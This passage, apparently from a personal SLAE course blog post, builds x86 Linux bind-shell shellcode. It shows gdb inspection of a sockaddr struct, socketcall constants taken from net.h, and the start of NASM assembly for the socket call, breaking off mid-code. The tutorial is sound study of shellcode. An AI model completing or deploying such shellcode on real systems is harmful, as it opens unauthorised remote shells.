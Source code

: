 The sockaddr struct will look something like this on the stack:

![sockaddr](/images/sockaddr.png)

Lets find the constants for `addr`:

```
gdb-peda$ b 14
Breakpoint 1 at 0x80485b4: file bindShell.c, line 14.
gdb-peda$ r
gdb-peda$ print /x addr
$2 = {
  sin_family = 0x2, 
  sin_port = 0x6311, 
  sin_addr = {
    s_addr = 0x0100007f
  }, 
  sin_zero = {0x25, 0x32, 0xea, 0xb7, 0x90, 0x5, 0xff, 0xb7}
}

```

And indexes for our socket calls, see why here in [this](http://tomasuh.github.io/2016/03/28/SLAE-Shellcode-Analysis.html#findPort) analysis.

```
tomasuh@Crunch:~$ cat /usr/include/linux/net.h | grep SYS_SOCKET
#define SYS_SOCKET  1       /* sys_socket(2)        */
tomasuh@Crunch:~$ cat /usr/include/linux/net.h | grep SYS_BIND
#define SYS_BIND    2       /* sys_bind(2)          */
tomasuh@Crunch:~$ cat /usr/include/linux/net.h | grep SYS_LISTEN
#define SYS_LISTEN  4       /* sys_listen(2)        */
tomasuh@Crunch:~$ cat /usr/include/linux/net.h | grep SYS_ACCEPT
#define SYS_ACCEPT  5       /* sys_accept(2)        */
```


With the steps broken down it was suprisingly easy going to write the assembly code.

```nasm

global _start

section .text

_start:

socket:

xor eax,eax
push eax ;protocol
inc eax
push eax ;SOCK_STREAM
inc eax
push eax ;AF_INET

mov al, 0x66 ;sys_socketcall
mov ebx, [esp+4] ; socket(AF_INET, SOCK_STREAM, 0)
mov ecx, esp ; socket args
```